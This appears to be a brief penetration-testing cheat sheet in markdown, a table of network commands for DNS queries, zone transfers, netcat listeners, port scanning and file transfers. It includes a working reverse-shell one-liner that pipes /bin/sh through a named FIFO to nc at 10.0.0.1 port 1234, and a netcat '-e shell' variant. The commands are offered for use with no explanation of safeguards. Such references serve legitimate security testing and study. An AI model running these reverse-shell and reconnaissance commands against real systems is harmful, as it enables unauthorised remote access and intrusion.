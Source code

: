 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
    <td>host -l <i>domain nameServer</i></td>
    <td>dns zone transfer</td>
  </tr>
  <tr>
    <td>nc <i>ip port</i> -e <i>shell</i><br>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f</td>
    <td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
    <td>nc -l -p <i>port</i></td>
    <td>start listener</td>
  </tr>
  <tr>
    <td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</i></td>
    <td>tcp port scanner</td> 
  </tr>
  <tr>
    <td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</i></td>
    <td>file transfers</td>
  </tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwOTMyNjg1OTAsLTE3MjI0NTA0MDMsLT
E5NjY1ODg1MTVdfQ==
-->